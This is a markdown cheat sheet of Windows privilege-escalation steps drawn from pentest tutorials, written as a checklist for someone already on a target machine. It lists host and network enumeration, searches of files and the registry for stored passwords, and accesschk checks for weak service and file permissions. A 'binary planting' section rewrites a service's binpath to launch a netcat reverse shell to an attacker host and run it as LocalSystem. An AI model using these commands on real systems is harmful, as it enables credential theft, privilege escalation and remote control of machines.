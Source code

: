 # windows priv escalation

Ref: 

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://www.youtube.com/watch?v=kMG8IsCohHA](https://www.youtube.com/watch?v=kMG8IsCohHA)
* [https://www.youtube.com/watch?v=\_8xJaaQlpBo](https://www.youtube.com/watch?v=_8xJaaQlpBo)
* [http://www.greyhathacker.net/?p=738](http://www.greyhathacker.net/?p=738)
* [http://blogs.technet.com/b/markrussinovich/archive/2006/05/01/the-power-in-power-users.aspx](http://blogs.technet.com/b/markrussinovich/archive/2006/05/01/the-power-in-power-users.aspx)



* What system are we connected to? 
  * systeminfo \| findstr /B /C:"OS Name" /C:"OS Version"
* Get the hostname and username \(if available\) 
  * hostname 
  * echo %username%
* Get users 
  * net users 
  * net user \[username\]
* Networking stuff 
  * ipconfig /all
* Printer? 
  * route print
* ARP-arific 
  * arp -A
* Active network connections 
  * netstat -ano
* Firewall fun \(Win XP SP2+ only\) 
  * netsh firewall show state 
  * netsh firewall show config
* Scheduled tasks 
  * schtasks /query /fo LIST /v
* Running processes to started services 
  * tasklist /SVC 
  * net start
* Driver madness 
  * DRIVERQUERY
* WMIC fun \(Win 7/8 -- XP requires admin\) 
  * `wmic /?`
  * `#Use wmic_info script!`
* WMIC: check patch level 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn
* Search pathces for given patch 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn \| findstr /C:"KB.." /C:"KB.."
* AlwaysInstallElevated fun 
  * reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
  * reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
* Other commands to run to hopefully get what we need 
  * dir /s _pass_ == _cred_ == _vnc_ == _.config_ 
  * findstr /si password _.xml_ .ini \*.txt 
  * reg query HKLM /f password /t REG\_SZ /s 
  * reg query HKCU /f password /t REG\_SZ /s
* Service permissions 
  * sc query 
  * sc qc \[service\_name\]
* Accesschk stuff 
  * accesschk.exe /accepteula \(always do this first!!!!!\) 
  * accesschk.exe -ucqv \[service\_name\] \(requires sysinternals accesschk!\) 
  * accesschk.exe -uwcqv "Authenticated Users" \* \(won't yield anything on Win 8\) 
  * accesschk.exe -ucqv \[service\_name\]
  * Find all weak folder permissions per drive. 
    * accesschk.exe -uwdqs Users c: 
    * accesschk.exe -uwdqs "Authenticated Users" c:\
  * Find all weak file permissions per drive. 
    * accesschk.exe -uwqs Users c:\*.\*
    * accesschk.exe -uwqs "Authenticated Users" c:\.\*
* Binary planting 
  * sc config \[service\_name\] binpath= "C:\nc.exe -nv \[RHOST\] \[RPORT\] -e C:\WINDOWS\System32\cmd.exe" 
  * sc config \[service\_name\] obj= ".\LocalSystem" password= "" 
  * sc qc \[service\_name\] \(to verify!\) 
  * net start \[service\_name\]

Ref:  [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

